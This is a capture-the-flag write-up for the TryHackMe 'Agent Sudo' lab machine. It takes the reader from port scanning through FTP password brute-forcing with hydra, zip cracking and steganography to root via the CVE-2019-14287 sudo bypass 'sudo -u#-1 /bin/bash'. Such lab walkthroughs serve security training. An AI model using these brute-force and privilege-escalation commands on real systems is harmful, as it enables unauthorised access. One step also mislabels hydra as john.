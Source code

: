 # Agent Sudo - WriteUp
## https://tryhackme.com/room/agentsudoctf

+ **We start with a nmap scan (TCP-SYN) for open ports (no host discovery or dns resolution).**
  
    ``nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.33.214 -oG allPorts``

+ **We see that FTP, SSH and HTTP are open.**

    ![1]
    
+ **With the help of whatweb, we try to enumerate for any CMS or software the web server is running.**

    Nothing relevant appears.

    ![2]
    
+ **We enumerate in nmap (with basic enum scripts) for versions in the services.**

    ``nmap -sC -sV -p21,22,80 10.10.33.214 -oN targeted``

    ![3]
    
    We see that the FTP software, vsftpd, is running version 3.0.3.
    
+ **We try to look for an exploit in exploitdb.**
    
    Nothing appears, so it´s not a vulnerable version.
    
    ![4]
    
+ **We try to login with anonymous user in the FTP service, but it didn't work.**

    ![5]
    
+ **Let's see the webpage. It tells that we must try to access with our codename as User-Agent.**

    ![6]
    
    TryHackMe gives us the hint to try the codename "C". To change the User-Agent, we use **curl**.
    
+ **Let's see the response of the webserver with curl, and the changed User-Agent.**

    We use the flag -L to apply a redirection in the page (for the change in the User-Agent).

    ``curl "http://10.10.33.214" -H "User-Agent: C" -L``
    
    ![7]
    
    From this, we know that the pass for the user **chris** is weak (also that Agent C is chris). Let's crack it.
    
+ **Let's use **john** to brute-force the password for the FTP service, with the user chris.**

    ``hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.33.214 -t 10 -v``
    
    ![8]
    
    John detects the password, so let's login with the new credentials.
    
+ **Login with the FTP credentials and list all the content.**
    
    ![9]
    
    We see three files, two images and a txt file. Lest download all of them to our current directory.
    
    ``mget *``
    
+ **If we open the txt file, we see the next message.**

    ![10]
    
    From this, we know that the images contain hidden data (steganography). Also, we get a new user (J) and the hint to his SSH password.
    
+ **Let's use binwalk to see any hidden file in the images.**

    ![11]
    
    We see that the image **cutie.png** contains a ZIP file inside. Let's extract it.
    
    ``binwalk -e cutie.png``
    
    ![12]
    
    The extracted **ZIP** has password, so we need to crack it first.
    
+ **We are going to use zip2john to get the hash first**

    ``zip2john 8702.zip > zip_hash``
    
+ **Now, let's use john to brute-force the hash obtained in the previous step**

    ``john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash | tee zip_pass``
    
    We transfer the output to a file to save all the results (**tee**).
    
    ![13]
    
    We obtain the ZIP file key.
    
+ **If we extract the file (I recommend to use 7z, because unzip doesn't recognize the password to extract), we obtain a new txt file.**

    ![14]
    
    We get a new message, which says:
    
    ```
    Agent C,
    
    We need to send the picture to 'XXXX' as soon as possible!
    
    By,
    Agent R
    ```
    
    This "location" is in base64, so we decode it.
    
    ``echo "XXXX" | base64 -d``
    
    ![15]
    
+ **We have finished with the png file, so now let's work with the jpg file. Let's see if there's something hidden with steghide**

    ``steghide extract -sf cute-alien.png``
    
    It asks us for a password, so we introduce the last word we get (in the previous step, after decode it).
    
    We see that it extracts a hidden message to a txt file, so we open it.
    
    ![16]
    
    It gives us an user (james) and his SSH password.
    
+ **We login to SSH with the new credentials.**

    Now, we have access to the machine.
    
    ![17]
    
    We can see the user flag using ls in the current directory.
    
+ **Now, let's do the privesc. We can use LinPeas, uploading the script to the system with scp (because we already know the SSH password)**

    ``scp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh james@10.10.33.214:/dev/shm``
    
    ![18]
    
    But let's do some manual enum. First, let's see for sudo permissions:
    
    ``sudo -l``
    
    We get the next permissions:
    
    ```
    User james may run the following commands on agent-sudo:
         (ALL, !root) /bin/bash
    ```
    
    Seeing this, we remember a CVE released in 2019 about a vulnerability on the command sudo. This is the CVE-2019-14287.
    
    ![19]
    
    To bypass the restriction established in the **suddoers** file, we need to execute the next command:
    
    ``sudo -u#-1 /bin/bash``
    
    To learn more about this vulnerability, you can access to this [site](https://www.exploit-db.com/exploits/47502)
    
+ **When we execute the command, it asks us for the james password; we introduce it and receive a root bash.**

    We can see it in the name of the prompt and with the command whoami.
    
    ![20]
    
    Now, we can go to the root directory, and get the root flag.
    
    ![21]
    
+ **BONUS: The machine also request to get the "name of the incident" of the image in the user james directory.**

    It's all about an OSINT task. We only need to use the reverse search of Google with the image, and filtrate the results by "Foxnews".
    
[1]:./images/1.png
[2]:./images/2.png
[3]:./images/3.png
[4]:./images/4.png
[5]:./images/5.png
[6]:./images/6.png
[7]:./images/7.png
[8]:./images/8.png
[9]:./images/9.png
[10]:./images/10.png
[11]:./images/11.png
[12]:./images/12.png
[13]:./images/13.png
[14]:./images/14.png
[15]:./images/15.png
[16]:./images/16.png
[17]:./images/17.png
[18]:./images/18.png
[19]:./images/19.png
[20]:./images/20.png
[21]:./images/21.png
